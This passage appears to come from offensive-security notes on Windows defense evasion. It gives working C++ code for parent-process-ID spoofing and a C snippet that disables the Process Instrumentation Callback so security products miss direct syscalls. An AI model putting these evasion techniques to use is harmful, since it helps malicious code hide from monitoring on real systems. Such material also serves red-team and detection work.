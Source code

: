 ```cpp
#include <windows.h>
#include <TlHelp32.h>
#include <iostream>

//code from : https://www.ired.team/offensive-security/defense-evasion/parent-process-id-ppid-spoofing
int main() 
{
	STARTUPINFOEXA si;
	PROCESS_INFORMATION pi;
	SIZE_T attributeSize;
	ZeroMemory(&si, sizeof(STARTUPINFOEXA));
	
	HANDLE parentProcessHandle = OpenProcess(MAXIMUM_ALLOWED, false, 6200);

	InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
	si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attributeSize);
	InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);
	UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &parentProcessHandle, sizeof(HANDLE), NULL, NULL);
	si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

	CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &si.StartupInfo, &pi);

	return 0;
}
```

## Process Instrumentation Callback

Process Instrumentation Callback is defined as the `ProcessInstrumentationCallback` flag (`0x40`) and is used by security products to [detect potential direct syscall](https://winternl.com/detecting-manual-syscalls-from-user-mode/) invocation by registering a callback to check if the `syscall` instruction comes from the executable image and not NTDLL. To bypass it for our process we just have to set `Callback` to `NULL`

```c
PROCESS_INSTRUMENTATION_CALLBACK_INFORMATION InstrumentationCallbackInfo;

InstrumentationCallbackInfo.Version  = 0x0;
InstrumentationCallbackInfo.Reserved = 0x0;
InstrumentationCallbackInfo.Callback = NULL;

NtSetInformationProcess( hProcess, ProcessInstrumentationCallback, &InstrumentationCallbackInfo, sizeof( InstrumentationCallbackInfo ) );
```
> it's still "undocumented" by microsoft but [Alex Ionescu](https://twitter.com/aionescu) has documented it [here](https://www.youtube.com/watch?v=pHyWyH804xE&ab_channel=S%C3%A9bastienDuquette) and Everdox has also done so [here](https://www.codeproject.com/Articles/543542/Windows-x64-system-service-hooks-and-advanced-debu)
